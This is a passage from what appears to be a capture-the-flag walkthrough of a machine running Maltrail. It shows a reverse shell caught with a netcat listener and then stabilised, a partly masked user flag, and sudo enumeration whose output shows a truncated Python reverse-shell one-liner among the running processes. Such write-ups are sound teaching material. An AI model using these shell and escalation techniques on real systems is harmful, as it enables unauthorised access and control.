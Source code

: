 I’ll use the [standard trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q) to upgrade my shell:

```

$ script /dev/null -c bash
Script started, file is /dev/null
puma@sau:/opt/maltrail$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
puma@sau:/opt/maltrail$ 

```

I’l grab `user.txt` from the puma user’s home directory:

```

puma@sau:~$ cat user.txt
4353b8ab************************

```

## Shell as root

### Enumeration

The puma user can run some `systemctl` commands as root without a password using `sudo`:

```

puma@sau:~$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

```

Running this command prints the status of the service:

```

puma@sau:~$ /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
     Active: active (running) since Thu 2024-01-04 13:33:54 UTC; 2h 25min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 891 (python3)
      Tasks: 10 (limit: 4662)
     Memory: 24.4M
     CGroup: /system.slice/trail.service
             ├─ 891 /usr/bin/python3 server.py
             ├─1234 /bin/sh -c logger -p auth.info -t "maltrail[891]" "Failed p…
             ├─1235 /bin/sh -c logger -p auth.info -t "maltrail[891]" "Failed p…
             ├─1244 sh                              
             ├─1245 python3 -c import socket,os,pty;s=socket.socket(socket.AF_I…
             ├─1246 /bin/sh
             ├─1248 script /dev/null -c bash
             ├─1249 bash
             └─1280 /usr/bin/systemctl status trail.service
```